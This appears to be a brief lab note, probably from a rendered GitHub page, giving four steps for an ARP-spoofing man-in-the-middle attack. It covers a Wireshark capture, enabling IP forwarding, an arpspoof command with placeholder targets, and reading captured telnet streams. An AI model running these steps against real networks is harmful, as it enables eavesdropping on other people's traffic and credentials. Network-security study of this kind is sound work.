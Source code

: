 
process
=
1. turn on wireshark capture
2. `echo 1 > /proc/sys/net/ipv4/ip_forward`
3. `arpspoof -i eth1 -t impersonator target -r return address` 
4. follow tcp stream of telnet data